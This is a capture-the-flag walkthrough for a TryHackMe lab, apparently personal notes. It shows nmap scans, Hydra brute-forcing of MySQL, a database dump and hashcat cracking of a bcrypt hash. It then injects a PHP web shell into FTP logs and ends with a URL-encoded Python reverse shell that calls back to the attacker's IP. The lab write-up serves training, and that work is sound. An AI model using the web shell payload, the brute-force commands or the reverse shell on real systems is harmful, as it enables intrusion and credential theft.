 <code>
https://tryhackme.com/room/ettubrute

## Service enumetration

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 18:5a:d4:0f:2c:ae:36:9d:35:9c:83:af:da:85:a0:75 (RSA)
|   256 8b:72:5d:b3:75:27:26:6d:3f:a3:41:23:27:1e:cb:4e (ECDSA)
|_  256 6f:58:b9:06:ee:97:de:5e:64:76:55:00:4d:be:47:e7 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
3306/tcp open  mysql   MySQL 8.0.41-0ubuntu0.20.04.1
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-10-19T04:00:09
|_Not valid after:  2031-10-17T04:00:09
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.41-0ubuntu0.20.04.1
|   Thread ID: 51
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolNew, Support41Auth, SwitchToSSLAfterHandshake, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, LongPassword, SupportsCompression, FoundRows, ConnectWithDatabase, SupportsTransactions, IgnoreSigpipes, ODBCClient, SupportsLoadDataLocal, LongColumnFlag, IgnoreSpaceBeforeParenthesis, InteractiveClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 4~L\x02ed`RsB\x08q1\x01E!L1~.
|_  Auth Plugin Name: caching_sha2_password
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

## mysql user Enumeration
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-16 11:50 CEST
Nmap scan report for 10.10.7.238
Host is up (0.032s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 8.0.41-0ubuntu0.20.04.1
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
|_mysql-empty-password: ERROR: Script execution failed (use -d to debug)
| mysql-brute: 
|   Accounts: No valid accounts found
|   Statistics: Performed 0 guesses in 1 seconds, average tps: 0.0
|_  ERROR: The service seems to have failed or is heavily firewalled...
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.41-0ubuntu0.20.04.1
|   Thread ID: 116
|   Capabilities flags: 65535
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, Support41Auth, Speaks41ProtocolOld, SwitchToSSLAfterHandshake, SupportsCompression, Speaks41ProtocolNew, SupportsTransactions, IgnoreSigpipes, ConnectWithDatabase, InteractiveClient, LongPassword, SupportsLoadDataLocal, FoundRows, DontAllowDatabaseTableColumn, LongColumnFlag, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: \x15MGc\x1AmwX\x13bw\x1BE\x0BhH\x1Buf\x19
|_  Auth Plugin Name: caching_sha2_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.54 seconds


## password brute force sql
hydra -l root -P ../../www/wordlists/rockyou.txt 10.10.81.109 mysql
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-16 15:25:58
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://10.10.81.109:3306/
[3306][mysql] host: 10.10.81.109   login: root   password: rockyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-16 15:26:00



## mysql Enumeration


MySQL [mysql]> use website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [website]> select * from user;
ERROR 1146 (42S02): Table 'website.user' doesn't exist
MySQL [website]> select * from userss;
ERROR 1146 (42S02): Table 'website.userss' doesn't exist
MySQL [website]> select * from userss
    -> select * from userss;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'select * from userss' at line 2
MySQL [website]> select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | Adrian   | $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we | 2021-10-20 02:43:42 |
+----+----------+--------------------------------------------------------------+---------------------+
1 row in set (0.033 sec)

MySQL [website]> 


──(kali㉿kali)-[~/Documents/THM/THM_Brute]
└─$ cat hash.txt 
$A$005$n:{T^3%/{5=+Z0Y1zOxlUB7mIrlVbAxA5t4ARcqMaY6i4k1AhaU2/W1

## Adrian Hash creaking                                                                                                                                        

┌──(kali㉿kali)-[~/Documents/THM/THM_Brute]
└─$ hashcat hash.txt -m 3200 ../../../Documents/www/wordlists/rockyou.txt
hashcat (v6.2.6) starting
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72
Dictionary cache built:
* Filename..: ../../../Documents/www/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

**$2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we:tigger**
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSY...SKn4we
Time.Started.....: Tue May 20 12:35:32 2025 (1 sec)
Time.Estimated...: Tue May 20 12:35:33 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (../../../Documents/www/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       40 H/s (3.68ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 32/14344385 (0.00%)
Rejected.........: 0/32 (0.00%)
Restore.Point....: 16/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 654321 -> butterfly

Started: Tue May 20 12:34:47 2025
Stopped: Tue May 20 12:35:34 2025

## credentials Adrian:tigger - only for web service not for ftp/ssh

## gobuster with credentials - nothing

┌──(kali㉿kali)-[~/Documents/THM/THM_Brute]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.210.144 -x .php, .txt, .html -c PHPSESSID=6mf4a6dknljbg7it5dvurulukb

/.                    (Status: 302) [Size: 0] [--> welcome.php]
/.php                 (Status: 403) [Size: 278]
/index.php            (Status: 302) [Size: 0] [--> welcome.php]
/welcome.php          (Status: 200) [Size: 631]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/config.php           (Status: 200) [Size: 0]
/.php                 (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 1080]
/server-status        (Status: 403) [Size: 278]
Progress: 661680 / 661683 (100.00%)

## FTP log poisoning

ftp 10.10.122.127
Connected to 10.10.122.127.
220 (vsFTPd 3.0.5)
Name (10.10.122.127:kali): '<?php system($_GET['c']); ?>'
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 

http://10.10.122.127/welcome.php?c=id
Thu May 22 09:06:33 2025 [pid 1973] ['uid=33(www-data) gid=33(www-data) groups=33(www-data) '] FAIL LOGIN: Client "::ffff:10.8.28.108"


## Get reverse shell

http://10.10.122.127/welcome.php?c=export%20RHOST=%2210.8.28.108%22;export%20RPORT=4444;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22sh%22)%27

